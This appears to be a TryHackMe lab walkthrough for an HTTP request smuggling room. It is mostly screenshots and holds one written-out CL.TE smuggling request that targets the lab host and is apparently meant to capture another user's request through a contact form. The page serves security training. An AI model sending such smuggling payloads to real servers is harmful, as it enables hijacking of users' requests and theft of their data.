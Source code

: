 ### 26-Jan-24-Fri

[TryHackMe | HTTP Request Smuggling](https://tryhackme.com/room/httprequestsmuggling)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/14d402ab-462c-446d-82b5-037e2b79ee79)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/4041a7e6-f4c3-4b25-9161-85ac41d3389b)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/c75b3dbe-2119-4f16-8a79-9c75bbf120e0)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/c6e94df0-ae7e-4368-b24b-59af2c827fa9)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/0c0a1d43-d480-44f9-9c3d-7cabe591e977)

```
POST / HTTP/1.1
Host: httprequestsmuggling.thm
Content-Type: application/x-www-form-urlencoded
Content-Length: 160
Transfer-Encoding: chunked

0

POST /contact.php HTTP/1.1
Host: httprequestsmuggling.thm
Content-Type: application/x-www-form-urlencoded
Content-Length: 500

username=test&query=§
```

![32964210f678d511e5a75b5e13a5c147](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/d834b01e-1391-4130-836c-e566d952c6a7)

![5e2511d719fc407762ad7551131fae40](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/bc211e3d-1a72-4b7c-936a-040282d96fd0)

![9dfb8dfb97e796d940b2bdc395012485](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/217f0bb6-0f28-41d9-bae6-8f896fc8e95b)

![60e31338ee743a34621d916cea98bff0](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/dd9deefb-2882-45c7-af08-9d17068aa3db)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/39cb213d-9fed-408f-98e2-9daf395afcba)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/ba81de68-da84-4d40-8118-bf7f293c84e6)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/866e0c21-8719-4b73-92e2-6df04efed424)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/bfc60b95-34e3-4fb2-ab3b-2d60b3353f9f)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f4672789-646c-41ab-9bb0-f4d847b38600)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/7af5d54d-da2a-42b8-a8ba-7accd5ef02c4)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/b6d94f86-b030-4ea6-a527-46ef4179e97f)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/9b3b4667-2b2b-4a0b-ab34-f1f1ede990ed)
